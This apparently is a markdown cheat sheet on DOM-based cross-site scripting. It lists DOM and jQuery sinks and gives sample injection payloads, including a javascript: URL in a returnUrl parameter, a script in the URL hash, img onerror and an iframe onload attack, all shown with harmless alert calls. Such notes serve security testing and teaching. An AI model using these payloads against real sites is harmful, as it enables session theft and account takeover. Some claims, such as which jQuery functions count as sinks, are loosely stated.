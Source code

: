 ### The following are some of the main sinks that can lead to DOM-XSS vulnerabilities:   
`document.write()` | `document.writeln()` | `document.domain` | `element.innerHTML` | `element.outerHTML` | `element.insertAdjacentHTML` | `element.onevent`

---


### The following jQuery functions are also sinks that can lead to DOM-XSS vulnerabilities:
`add()` | `after()` | `append()` | `animate()` | `insertAfter()` | `insertBefore()` | `before()` | `html()` | `prepend()` | `replaceWith()` | `wrap()` | `wrapInner()` | `wrapAll()` | `has()` | `constructor()` | `init()` | `index()` | `jQuery.parseHTML()` | `$.parseHTML()`

---

### Identifying Weaknesses in Input Handling:
- Look for the direct usage of these inputs in dangerous functions, such as:
  - `eval()`, `setTimeout()`, or `setInterval()` when passing string values.
  - `innerHTML` or `outerHTML`, which may directly render content.
  - `document.write()` or `document.writeln()`.
  - `addEventListener()` or any function that executes JavaScript code based on user inputs.
  - As soon as you find the first link followed by a secondary link, the parameter is usually named `returnurl`, `url`, or `returnpath`. Inject the code javascript:confirm() into it, or look for bypass techniques.
  - Example: `?returnUrl=javascript:alert(document.domain)`

- If the application displays content based on `document.location.hash`:
  Example: 
  ```html
  http://example.com/#<script>alert('XSS')</script>
  ```

- When using `innerHTML` with unsanitized data:
  Example: 
  ```html
  <img src=x onerror=alert('XSS')>
  ```

- Using functions like `eval()` with URL parameters:
  Example: 
  ```html
  http://example.com/?input=alert('XSS')
  ```

- First, we create a regular `.txt` file, let's assume its name is `xss.txt`. Then, we write the following code inside it:
  ```html
  <iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">
  ```

- Next, we convert the file to an HTML file like this:
  `xss.txt -> xss.html`, and then open the file. What happens is that we can pull data remotely. So, if we set up a server, we can remotely collect a copy of the user's data.
